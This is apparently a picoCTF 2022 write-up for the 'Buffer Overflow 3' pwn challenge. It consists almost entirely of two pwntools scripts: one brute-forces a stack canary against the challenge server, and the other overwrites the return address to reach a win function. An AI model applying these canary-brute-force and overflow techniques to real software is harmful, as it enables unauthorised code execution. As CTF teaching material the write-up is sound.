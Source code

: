 ```yaml
---
name: Buffer Overflow 3 (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for Buffer Overflow 3 (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Buffer Overflow 3

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=1676 "Pico CTF 2022: Buffer Overflow 3")

## Description

> Do you think you can bypass the protection and get the flag?

## Solution

#### canary_brute.py

{% code overflow="wrap" %}
```py
from pwn import *
import string

elf = context.binary = ELF('./vuln', checksec=False)
context.log_level = 'critical'

canary = ""

while len(canary) < 4:
    not_found = True
    while not_found:
        for i in string.printable:
            # p = elf.process()
            p = remote('saturn.picoctf.net', 63681)
            padding = 64

            test = canary + i
            print(test)
            payload = b'A' * padding
            payload += f'{test}'.encode()

            p.sendlineafter(b'>', str(len(payload)).encode())

            p.sendlineafter(b'>', payload)

            if b'Smashing' in p.recvline():
                p.close()
                continue
            else:
                canary += i
                not_found = False
                p.close()
                break
```
{% endcode %}

#### exploit.py

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *0x8049534
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
padding = 64

payload = flat(
    b'A' * padding,
    b'BiRd',  # Canary is here
    b'A' * 16,  # Saved RBP + int
    elf.symbols.win
)

io.sendlineafter(b'>', str(len(payload)).encode())

# Send the payload
io.sendlineafter(b'>', payload)

# Receive the flag
io.recvuntil(b'?')
io.interactive()
```
{% endcode %}
